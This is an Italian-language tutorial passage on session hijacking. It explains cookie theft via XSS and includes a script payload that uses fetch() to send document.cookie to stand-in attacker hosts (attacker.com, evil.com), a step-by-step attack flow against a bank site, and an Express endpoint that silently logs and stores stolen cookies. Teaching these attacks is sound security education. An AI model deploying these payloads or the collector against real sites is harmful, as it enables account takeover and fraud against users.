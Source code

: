 # 18. Session Hijacking e Session Management

## 18.1 Introduzione

**Session Hijacking** è l'attacco dove un malintenzionato **ruba o indovina** il session ID di un utente legittimo per **impersonarlo**.

**Impatto:**
- 🔴 Accesso non autorizzato all'account
- 🔴 Furto dati personali
- 🔴 Transazioni fraudolente
- 🔴 Privilege escalation
- 🔴 Data breach

## 18.2 Cookie Theft via XSS

### 18.2.1 - Attacco

**Scenario:** Attaccante inietta JavaScript che ruba cookie.

```javascript
// XSS payload iniettato
<script>
    // Ruba cookie e invia ad attaccante
    fetch('http://attacker.com/steal?cookie=' + document.cookie);
</script>
```

**Flusso completo:**
```
1. Attaccante trova XSS vulnerability su bank.com
2. Inietta payload: 
   <script>
   fetch('http://evil.com/steal?c=' + document.cookie);
   </script>
3. Vittima visita pagina compromessa
4. Browser esegue script, invia cookie ad evil.com
5. Attaccante riceve: session=abc123xyz
6. Attaccante usa cookie per impersonare vittima su bank.com
7. Accesso completo all'account vittima!
```

**Attacker server riceve cookie:**
```javascript
// evil.com/steal endpoint
const express = require('express');
const app = express();

app.get('/steal', (req, res) => {
    const stolenCookie = req.query.c;
    
    console.log('🎯 Cookie rubato:', stolenCookie);
    
    // Salva in database
    db.insert({ cookie: stolenCookie, timestamp: new Date() });
    
    // Risposta trasparente (vittima non nota nulla)
    res.status(204).send();
});

app.listen(80);
```
